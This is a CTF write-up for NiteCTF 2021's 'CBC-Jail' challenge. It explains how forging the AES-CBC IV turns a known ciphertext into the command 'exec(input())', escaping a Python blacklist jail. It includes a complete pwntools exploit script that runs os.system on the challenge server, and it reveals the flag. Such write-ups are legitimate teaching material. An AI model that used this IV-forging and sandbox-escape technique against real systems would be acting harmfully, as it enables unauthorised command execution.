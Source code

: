 ```yaml
---
author: xtylez
categories: ctf
date: 2021-12-13 20:00:00 +0100
layout: post
tags: [xtylez, crypto]
title: NiteCTF 2021 - CBC-Jail [Crypto/Pwn]
---
```


```
Solves: 34
Type:  	crypto/pwn
Difficulty: Easy
Author: Pun1sher + Arkaja

crack() the jail to get the flag. But make sure you get your crypto right.
```

## Introduction ##

This was a very fun challenge to solve from niteCTF which involved knowledge of how AES-CBC worked and how to bypass a blacklist made in python which didn't filter all the interesting functions we could `exec()`.

## Code Analysis ##

As we open the file, we can see that we have three functions, `encrypt(msg), decrypt(msg,iv), weirdify(inp)`. which are all based on `AES-CBC 128bit` mode.

We can also see that the KEY and IV are randomly generated each time we open the connection to the server.

Also, we are given a "hint" by the challenge creator:

```python
print('Welcome to Prison.')
print('A mad cryptographer thought it would be cool to mess your shell up.')
print('Lets see if you can "crack()" your way out of here')
print("As a gift we'll give you a sample encryption")
print(encrypt(b'trapped_forever'))
```

Where `encrypt()` does the following:

```python
def encrypt(msg):
    msg = pad(msg,16)
    cipher = AES.new(KEY,AES.MODE_CBC,IV)
    encrypted = cipher.encrypt(msg)
    encrypted = encrypted.hex()
    msg = IV.hex() + encrypted
    return msg
```

Looks like the encryption is being done correctly and that we have the IV and Ciphertext, as we have the source we also have the Plaintext.

Now lets take a look at the `weirdify()` function:

```python
def weirdify(inp):
    iv = bytes.fromhex(inp[:32])
    msg = bytes.fromhex(inp[32:])
    command = decrypt(msg,iv)
    return command
```

Looks like we can manipulate the IV that is being used for decrypting the msg as it's being read from our input.

First I'll append two images so we can understand how AES-CBC works and why the IV is so important here.

![image alt](https://upload.wikimedia.org/wikipedia/commons/d/d3/Cbc_encryption.png "AES-CBC Encrypt")
![image alt](https://upload.wikimedia.org/wikipedia/commons/6/66/Cbc_decryption.png "AES-CBC Decrypt")

As we can see, the Plaintext is first XOR'ed with the IV and then ciphered with the KEY. Same for decryption, first we decrypt and then we XOR.

As we can manipulate the IV, we could try to modify it so when we send the same ciphertext which we already know it's plaintext, XOR's to our desired plaintext.

It can be done because `0 == A XOR A` and because `0 XOR A = A`. It's reversible operation.

So our objective will be to get a new IV like `NEWIV = PT ^ OURPT ^ OLDIV`.

## Exploit ##

First of all we get our input from IO, for that we'll use `pwntools`.

Then we will create our `transform()` function which will generate the desired decrypted plaintext.

```python
def transform(newmsg,iv):
	changeit = newmsg
	for i in range(16-len(newmsg)):
		changeit += b"\t"
	oldmsg = b"trapped_forever\t"
	oldxor = xor(oldmsg,changeit)
	newiv = xor(oldxor,iv[:16])
	return newiv
```

After we have this, we only have to think on how to bypass the filter, in our case we just added an `exec(input())` which bypassed the filter. Now we could just automate everything and it would end up like this:

```python
from pwn import *
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

def transform(newmsg,iv):
	changeit = newmsg
	for i in range(16-len(newmsg)):
		changeit += b"\t"
	oldmsg = b"trapped_forever\t"
	oldxor = xor(oldmsg,changeit)
	newiv = xor(oldxor,iv[:16])
	return newiv

LOCAL = False
IP = '34.147.79.216'
PORT = 1337

if LOCAL:
	IP = "127.0.0.1"
	PORT = 9001
	io = remote(IP,PORT)
else:
	io = remote(IP,PORT)
    
for i in range(5):
	print(io.recvline())
    
encrypted = io.recvline().decode().replace("\n","")
enctext = bytes.fromhex(encrypted[32:])
IV = bytes.fromhex(encrypted[:32])

print(f"IV: {IV}")
print(f"ENC: {enctext}")

io.sendline(transform(b"exec(input())",IV).hex() +enctext.hex())
io.sendline(b"os.system('ls')")
io.interactive()
```

And the result would be:

```
>>flag.txt
nite{Th3__gr3at_esc4p3}
server.py
```

[Challenge source code](https://github.com/eskardinha/CTF-Writeups/tree/master/2021/niteCTF/CBC-Jail)
